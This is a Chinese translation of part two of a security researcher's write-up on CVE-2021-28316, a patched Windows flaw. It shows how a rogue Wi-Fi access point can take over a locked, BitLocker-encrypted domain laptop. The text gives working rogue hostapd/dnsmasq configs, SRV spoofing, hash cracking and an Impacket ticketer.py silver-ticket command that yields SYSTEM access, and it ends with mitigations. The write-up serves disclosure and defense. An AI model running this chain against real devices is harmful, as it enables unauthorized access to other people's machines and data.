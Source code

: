 > 原文链接: https://www.anquanke.com//post/id/238698 


# 深入分析CVE-2021-28316漏洞（下）


                                阅读量   
                                **175316**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Johnson，文章来源：shenaniganslabs.io
                                <br>原文地址：[https://shenaniganslabs.io/2021/04/13/Airstrike.html﻿](https://shenaniganslabs.io/2021/04/13/Airstrike.html%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)



在上一篇文章中，我们为读者详细介绍了CVE-2021-28316漏洞的背景知识，并展示了实现本地提权的过程，在本文中，我们将继续为读者介绍如何恢复HTML哈希值等重要知识点。

（接上文）

## 恢复NTLM哈希值

然后，攻击者可以将捕获到的这个MSCHAPv2质询响应的哈希值，通过工具chapcrack转换为Cloud Crack格式，并提交给crack.sh服务进行破解。

[![](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)

为了达到演示的目的，在我们的实验中，将使用Impacket的工具secretsdump.py来验证chapcrack输出的K3的前4个字节与计算机账户的NTLM哈希值的后4个字节是否匹配。

[![](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)

作为一个经过身份验证的域用户，我们可以通过多种方式获取域SID。其中，最简单的方法是运行whoami /all命令。

[![](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)

现在，我们已经掌握了为设备上的CIFS服务伪造一个服务票据所需的所有信息。由于我们可以指定服务票据中包含的用户和组SID，这样的话，我们就可以用它来作为具有管理权限的用户来访问CIFS服务了。

为此，我们可以使用Impacket中的工具ticketer.py和下面的命令来完成这个任务。

```
ticketer.py -nthash c86afa9bd3c7afa9ff31da6af182ddbe -domain-sid S-1-5-21-553012155-822088108-1873906631 -domain INITECH.local -spn cifs/DESKTOP-J5KI5KA.initech.local administrator
export KRB5CCNAME=administrator.ccache
```

[![](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)

这样的话，使用smbclient，我们就可以访问笔记本电脑的整个文件系统了。

[![](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)

Impacket中的smbexec.py之类的工具为我们提供了一种简便的方法，可以在SYSTEM用户的安全上下文中在主机上执行命令。

[![](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)

在发现可以从锁屏状态下获取质询响应的哈希值之后，攻击者又找到了一些更有趣的攻击情形，例如，攻击启用了全盘加密（FDE）的、处于锁屏状态的笔记本电脑。

但是，为了利用这一漏洞，目前还缺少重要的一环，即域SID。我们需要一种无需先登录到计算机即可恢复它的方法。



## 缺失的一环

在发现这种攻击方法几个月之后，一位客户联系我们，要求对其一台SOE笔记本电脑进行相应的安全测试。他们特别关心的是，如果攻击者能够将魔爪伸向受到BitLocker全盘加密保护的、处于锁屏状态的笔记本电脑上，将会造成多大的损失。

针对这种特定攻击情形，我本人和我的同事Danyal Drew（[@DanyalDrew](https://github.com/DanyalDrew)）重新考虑了这个想法，并着手考察是否可以找到一种无需登录计算机即可泄漏域SID的方法。

当加入域的计算机首次访问网络时，将执行许多CLDAP搜索，以识别域控制器上可用的服务。这些消息称为LDAP ping。

这听起来很有希望，因为在此搜索过程中使用的CLDAP查询包含以下信息：
- DnsDomain
- Host
- DnsHostName
- User
- DomainSid
- DomainGuid
我们的初步测试方法是，运行Wireshark捕获并观察无线客户端发出的LDAP DNS请求。

[![](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)

然后，将这些srv-host DNS条目添加到dnsmasq配置中并重新连接客户端后，我们找到了目标内容。

[![](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)

这样，我们现在就获得了入侵处于锁屏状态的笔记本电脑所需的一切。



## 在启用了全盘加密的情况下访问处于锁屏状态的计算机

实际上，这里的恶意AP配置也可用于通过目标设备的锁屏页面捕获质询响应的哈希值并提交给crack.sh服务。

要泄漏域SID，我们需要将笔记本电脑加入攻击者控制的网络；在该网络中，我们将使用攻击者的IP地址响应笔记本电脑发出的所有DNS SRV请求。

这样的话，我们就能够捕获包含域SID和域名的“ LDAP ping”数据包。同样的，我们还需要运行恶意访问点，并强制客户端从锁屏页面进行连接。但是，这次，我们将使用下面的hostapd.conf和hostapd-psk文件创建WPA2-PSK网络，而不是配置访问点以支持PEAP身份验证。

```
interface=$WIRELESS_INTERFACE_HERE
ssid=Airstrike_WPA
channel=1
auth_algs=1
wpa=3
wpa_psk_file=./hostapd-psk
wpa_key_mgmt=WPA-PSK 
wpa_pairwise=CCMP TKIP
rsn_pairwise=CCMP
```

然后，建立一个文件hostapd-psk，用于配置网络的密码。

```
00:00:00:00:00:00 airstrike
```

由于我们希望笔记本电脑能够连接到自己的网络，因此，我们还需要使用dnsmasq来运行DHCP和DNS服务器，所需的dnsmasq.conf文件如下所示。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

接下来，让我们可以为无线适配器分配一个IP地址，并启动DNS/DHCP服务器。

```
ifconfig $WIRELESS_INTERFACE 10.0.0.1/24 up
dnsmasq -d -C dnsmasq.conf
```

为了捕获来自笔记本电脑的流量，我们还需要在无线接口上启用tcpdump。

```
tcpdump -i $WIRELESS_INTERFACE -s 65535 -w $OUT_FILE.pcap
```

一旦运行上述命令，我们就可以从锁屏页面连接到无线网络，并且会在笔记本电脑上看到从我们的DHCP服务器接收的IP数据包。

需要注意的是，笔记本电脑首次连接时，我们会看到许多无应答的SRV DNS请求。我们需要记录下所有这些内容，并修改dnsmasq.conf文件，以使用无线接入点的IP地址可以响应它们。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp

srv-host=_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.a3fcc77a-710d-4956-af07-bfa9187b91e9.domains._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.INITECH.local,10.0.0.1,389
```

接下来，我们可以断开笔记本电脑与接入点的连接，然后重新连接，并检查新的pcap文件的内容。如果我们过滤的是CLDAP协议的数据包，我们就会发现笔记本电脑试图对攻击者的IP进行LDAP ping。并且，LDAP ping消息的内容将包括活动目录域名、笔记本电脑的主机名和域SID。

现在，我们可以再次使用工具ticketer.py为CIFS服务创建一个白银票据，并使用smbclient进行身份验证，从而获得对设备文件系统的无限制访问权限。

注意：在某些情况下，默认的RID 500帐户在加入域的主机上并不具有本地管理员权限。在这种情况下，可以通过暴力搜索方法：不断递增白银票据中的RID，直到发现有效帐户为止。



## 补救措施

这个安全问题已报告给Microsoft安全响应中心，并且已在2021年4月的最新安全更新中得到修复。

作为进一步的加强措施，我们可以通过以下组策略设置，禁用从锁屏页面访问网络选择UI的功能：

```
Computer Configuration | Administrative Templates | System | Logon --&gt; Do not display network selection UI

```

此外，我们也可以通过配置注册表，启用DontDisplayNetworkSelectionUI标志来实现上述目的：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System]
"DontDisplayNetworkSelectionUI"=dword:00000001
```
